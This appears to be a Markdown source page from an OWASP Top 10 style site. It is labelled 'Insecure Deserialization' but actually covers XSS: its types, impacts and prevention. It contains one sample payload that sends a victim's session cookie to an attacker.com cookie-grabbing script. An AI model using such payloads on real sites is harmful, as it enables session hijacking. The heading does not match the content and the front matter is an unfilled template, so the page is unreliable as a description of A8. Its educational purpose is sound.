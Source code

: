 ```yaml
---

title:
layout:
top-ten: 7
exploitability: 3
prevalance: 3
detectability: 3
techincal: 2
og-summary: This is the summar that goes in og meta tags so when shared on social/slack it has a customized summary of the page as opposed to random front content

---
```


## A8 - Insecure Deserializatin
<p> <i class="fa fa-exclamation-circle"  style="color:orange; padding-right: 5px"></i>Exploitablity
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Prevalence
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Detectability
  <i class="fa fa-skull-crossbones" style="color:black; padding-left: 20px; padding-right: 5px"></i>Technnical
</p>

#### Threat Agent / Attack Vectors
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.

##### Security Weakness
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br/>Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.

##### Impacts
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
 
### Is the Applicaton Vulnerable
There are three forms of XSS, usually targeting users' browsers:
- **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
- **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
- **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

### How to Prevent
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The <u>[[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'XSS Prevention']]</u> has details on the required data escaping techniques.
- Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the <u>[[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'DOM based XSS Prevention']].
- Enabling a <u>[https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP Content Security Policy (CSP)]</u> as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Sample Attack Scenarios

Scenario #1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
(String) page += "<input name='creditcard' type='TEXT'<br>value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=<br/>'<nowiki>h</nowiki>ttp://www.attacker.com/cgi-bin/cookie.cgi?
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

### References

OWASP
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Encode Data]]
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Validate Data]]
- [[:Category:OWASP_Application_Security_Verification_Standard_Project|OWASP Application Security Verification Standard: V5]]
- [[Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)|OWASP Testing Guide: Testing for Reflected XSS]]
- [[Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)|OWASP Testing Guide: Testing for Stored XSS]]
- [[Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)|OWASP Testing Guide: Testing for DOM XSS]]
- [[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet: XSS Prevention]]
- [[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet: DOM based XSS Prevention]]
- [[XSS_Filter_Evasion_Cheat_Sheet|OWASP Cheat Sheet: XSS Filter Evasion]]
- [[OWASP_Java_Encoder_Project|OWASP Java Encoder Project]]

External
- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)

